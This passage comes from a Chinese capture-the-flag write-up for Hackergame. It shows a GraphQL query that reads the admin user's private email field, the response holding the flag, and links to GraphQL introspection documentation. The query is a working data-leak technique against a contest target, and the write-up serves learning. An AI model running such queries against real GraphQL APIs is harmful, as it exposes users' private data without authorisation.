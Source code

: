 直接照葫芦画瓢，把需要的抄下来：

```json
{"query":"{ user(id: 1) { username\nprivateEmail }}"}
```

```json
{
    "data": {
        "user": {
            "username": "admin",
            "privateEmail": "flag{dont_let_graphql_l3ak_data_8b4a433f52@hackergame.ustc}"
        }
    }
}
```

- [1] [内省 | GraphQL 官方文档](https://graphql.cn/learn/introspection/)
- [2] [Introspection | Learn GraphQL](https://graphql.org/learn/introspection/)

---

以上

谢谢，真的学到很多。
